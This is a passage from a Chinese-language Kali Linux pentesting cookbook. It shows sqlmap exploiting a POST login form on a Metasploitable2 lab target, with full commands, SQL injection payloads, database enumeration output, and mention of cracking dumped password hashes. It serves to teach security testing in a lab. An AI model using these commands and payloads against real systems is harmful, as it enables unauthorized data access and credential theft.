 在识别表的内容中存在密码哈希之后，sqlmap 会提供选项，询问用户是否使用内置的密码破解器来对枚举密码哈希执行字典攻击。这可以使用内置单词列表，自定义单词列表，或者一系列单词列表来执行。在执行字典攻击之后，我们可以看到表的内容包含用户 ID，用户头像的位置，MD5 哈希，哈希的纯文本附加值（盐），以及用户姓名。

### 工作原理

sqlmap 的原理是提交来自大量已知 SQL 注入查询列表的请求。它在近几年间已经高度优化，并给予之前查询的响应来智能调整注入。在 HTTP GET 参数上执行 SQL 注入非常繁琐，因为修改内容要经过请求 URL 。

## 7.15 使用 sqlmap 注入 POST 方法

sqlmap 是 Kali 中的集成命令行工具，它通过自动化整个流程，极大降低了手动利用 SQL 注入漏洞所需的经历总量。这个秘籍中，我们会讨论如何使用 sqlmap 来自动化 HTTP POST 请求参数的测试。

### 准备

为了使用 sqlmap 对目标执行 Web 应用分析，你需要拥有运行一个或多个 Web 应用的远程系统。所提供的例子中，我们使用 Metasploitable2 实例来完成任务。 Metasploitable2 拥有多种预安装的漏洞 Web 应用，运行在 TCP 80 端口上。配置 Metasploitable2 的更多信息请参考第一章中的“安装 Metasploitable2”秘籍。

为了在使用 HTTP POST 方法的服务上指定 SQL 注入，我们需要使用`--data`参数来指定 POST 参数字符串。Mutillidae 的登录应用提供了一个登录页面，它通过 POST 方法传递用户名和密码。它就是我们的 SQL 注入攻击目标。看看下面的例子：

```
root@KaliLinux:~# sqlmap -u "http://172.16.36.135/mutillidae/index. php?page=login.php" --data="username=user&password=pass&login-php-submitbutton=Login" --level=5 --risk=3 
                        ** {CUT} ** 
sqlmap identified the following injection points with a total of 267 HTTP(s) requests:
--
Place: POST 
Parameter: username    
    Type: boolean-based blind    
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)    
    Payload: username=-8082' OR (4556=4556)#&password=pass&login-phpsubmit-button=Login
    
    Type: error-based    
    Title: MySQL >= 5.0 AND error-based - WHERE or HAVING clause    
    Payload: username=user' AND (SELECT 3261 FROM(SELECT COUNT(*),CONCAT( 0x3a61746d3a,(SELECT (CASE WHEN (3261=3261) THEN 1 ELSE 0 END)),0x3a76676 23a,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x) a) AND 'MraR'='MraR&password=pass&login-php-submit-button=Login 
--
[04:14:10] [INFO] the back-end DBMS is MySQL 
web server operating system: Linux Ubuntu 8.04 (Hardy Heron)
web application technology: PHP 5.2.4, Apache 2.2.8 
back-end DBMS: MySQL 5.0 
                        ** {TRUNCATED} ** 
```

如果没有指定操作，sqlmap 仅仅会判断是否任何参数存在漏洞，像上面的例子那样。在一系列注入尝试之后，sqlmap 判断出用户名 POST 参数存在`boolean-blind`和`error-based`漏洞。在确认漏洞之后，sqlmap 会执行操作，开始从后端数据库提取信息。

```
root@KaliLinux:~# sqlmap -u "http://172.16.36.135/mutillidae/index. php?page=login.php" --data="username=user&password=pass&login-php-submitbutton=Login" --dbs 
                        ** {CUT} ** 
available databases [7]: 
[*] dvwa 
[*] information_schema 
[*] metasploit 
[*] mysql 
[*] owasp10 
[*] tikiwiki 
[*] tikiwiki195 
                        ** {TRUNCATED} **
```
